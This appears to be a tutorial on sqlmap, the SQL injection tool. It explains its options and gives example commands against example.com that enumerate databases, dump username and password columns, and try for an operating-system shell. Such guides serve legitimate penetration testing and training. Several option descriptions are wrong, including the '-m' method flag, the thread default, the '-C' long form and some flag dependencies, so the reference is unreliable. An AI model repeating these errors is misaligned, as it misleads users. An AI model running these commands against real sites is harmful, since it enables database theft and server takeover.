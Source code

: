 # A Comprehensive Guide

sqlmap is a powerful, open-source penetration testing tool that automates the detection and exploitation of SQL injection vulnerabilities in web applications. It's designed to be highly customizable and feature-rich, supporting a wide range of database management systems (DBMS) and injection techniques. This document provides an in-depth overview of sqlmap's core functionalities, arguments, and practical applications.

## sqlmap Basics

*   **Target Specification:** sqlmap targets web application endpoints that interact with databases, often through URL parameters or form inputs.
*   **Vulnerability Detection:** It automatically detects SQL injection vulnerabilities using various techniques.
*   **Exploitation:** Once a vulnerability is found, sqlmap can exploit it to retrieve data, modify database content, and even gain control of the server in some cases.
*   **Database Support:** sqlmap supports most popular databases, including MySQL, PostgreSQL, Oracle, Microsoft SQL Server, SQLite, and more.

## Core sqlmap Arguments and Options

Here's a breakdown of some of the most important arguments and options in sqlmap:

1.  **`-u <url>` / `--url=<url>`:** Specifies the target URL. This is the primary option for targeting web application endpoints.
    *   **Example:** `sqlmap -u "http://example.com/product.php?id=1"`

2.  **`--data=<data>`:** Specifies POST data, use this with the option `-m POST`
    *   **Example:** `sqlmap -u "http://example.com/login.php" --data="username=test&password=test"`

3.  **`-H <header>` / `--header=<header>`:** Allows you to specify custom headers to include with the HTTP request. You can specify multiple headers.
    *   **Example:** `sqlmap -u "http://example.com/api/user" -H "X-API-Key: your_key"`

4. **`-p <parameter>` / `--param=<parameter>`:** Specifies the parameter to target for SQL injection. Use this if `sqlmap` is not able to identify automatically.
  * **Example:** `sqlmap -u "http://example.com/product.php?id=1&category=books" -p id`

5.  **`--cookie=<cookie>`:** Specifies cookie to use with the request.
    *   **Example:** `sqlmap -u "http://example.com/secure.php" --cookie="sessionid=1234"`

6. **`-m <method>` / `--method=<method>`:** Choose between the methods `GET` or `POST`.
     * **Example:** `sqlmap -u "http://example.com/submit.php" -m POST --data="user=test"`

7.  **`--dbs`:** Enumerate databases. Use this with an injectable target to get the database names
   *   **Example:** `sqlmap -u "http://example.com/product.php?id=1" --dbs`

8. **`-D <db>` / `--db=<db>`:** Specifies the database to target. Use this with an injectable target to get information from a specific database.
   *   **Example:** `sqlmap -u "http://example.com/product.php?id=1" -D "users_db" --tables`

9.  **`--tables`:** Enumerate database tables. Requires the `-D` flag.
    *   **Example:** `sqlmap -u "http://example.com/product.php?id=1" -D "users_db" --tables`

10. **`-T <table>` / `--table=<table>`:** Specifies the table to target. Requires both the `-D` and `--tables` flags.
    *   **Example:** `sqlmap -u "http://example.com/product.php?id=1" -D "users_db" -T "users" --columns`

11. **`--columns`:** Enumerate database columns. Requires the `-D` and `-T` flags.
   *    **Example:** `sqlmap -u "http://example.com/product.php?id=1" -D "users_db" -T "users" --columns`

12.  **`-C <columns>` / `--columns=<columns>`:** Specifies columns to dump data from. Requires `-D` and `-T` flags and also `--dump`.
    *   **Example:** `sqlmap -u "http://example.com/product.php?id=1" -D "users_db" -T "users" -C "username,password" --dump`

13. **`--dump`:** Dumps all data from table. Requires `-D`, `-T`, and `-C` or it will dump all columns.
   *  **Example:** `sqlmap -u "http://example.com/product.php?id=1" -D "users_db" -T "users" -C "username,password" --dump`

14. **`-b` / `--banner`:** Obtain the banner of a database.
    *  **Example:** `sqlmap -u "http://example.com/product.php?id=1" -b`

15.  **`--os-shell`:** Attempts to gain an operating system shell (if possible).
    *  **Example:** `sqlmap -u "http://example.com/product.php?id=1" --os-shell`

16. **`--level=<level>`:** Level of test to perform, ranging from 1 to 5 (default 1). Level 5 includes all options of levels 1-4, plus the heaviest injection techniques.
    *  **Example:** `sqlmap -u "http://example.com/product.php?id=1" --level=3`

17. **`--risk=<risk>`:** Risk value that defines how aggressive sqlmap should be, ranging from 1 to 3 (default is 1)
    *  **Example:** `sqlmap -u "http://example.com/product.php?id=1" --risk=2`

18. **`--threads=<threads>`:** Specify the number of threads to use during scan, default is 10.
     *   **Example:** `sqlmap -u "http://example.com/product.php?id=1" --threads=20`

19. **`-v <level>` / `--verbose=<level>`:** Level of verbosity. Can be used from 1 to 5. Default is 1.
    *   **Example:** `sqlmap -u "http://example.com/product.php?id=1" -v 3`

## Practical sqlmap Examples

1.  **Basic SQL injection test:**
    ```bash
    sqlmap -u "http://example.com/product.php?id=1"
    ```

2.  **POST request with SQL injection test:**
    ```bash
    sqlmap -u "http://example.com/login.php" --data="username=test&password=test"
    ```

3.  **Enumerate databases:**
    ```bash
    sqlmap -u "http://example.com/product.php?id=1" --dbs
    ```

4.  **Enumerate tables in a database and specific columns:**

    ```bash
    sqlmap -u "http://example.com/product.php?id=1" -D "users_db" --tables -T "users" --columns
    ```

5.  **Dump data from a specific column in a table:**
    ```bash
    sqlmap -u "http://example.com/product.php?id=1" -D "users_db" -T "users" -C "username,password" --dump
    ```
6. **Obtain database banner:**
  ```bash
    sqlmap -u "http://example.com/product.php?id=1" -b
  ```
7. **Attempt to get an OS shell:**
    ```bash
    sqlmap -u "http://example.com/product.php?id=1" --os-shell
    ```
8. **Use custom header for sql injection:**
    ```bash
    sqlmap -u "http://example.com/api/user" -H "X-API-Key: your_key" --dbs
    ```

## Use Cases

*   **Web Application Penetration Testing:** Identifying and exploiting SQL injection vulnerabilities during security assessments.
*   **Vulnerability Research:** Testing web application endpoints for potential SQL injection vulnerabilities.
*   **Data Breach Simulation:** Simulate data breaches using SQL injection to extract sensitive information.
*   **Security Training:** Learning and practicing SQL injection exploitation techniques.
*   **Automated Security Testing:** Integrating into CI/CD pipelines for continuous vulnerability scanning.

## Conclusion

sqlmap is a highly effective and versatile tool for discovering and exploiting SQL injection vulnerabilities. Its extensive features and options make it essential for security professionals and penetration testers. Remember to always use security tools responsibly and ethically, and only against systems you have permission to test.

---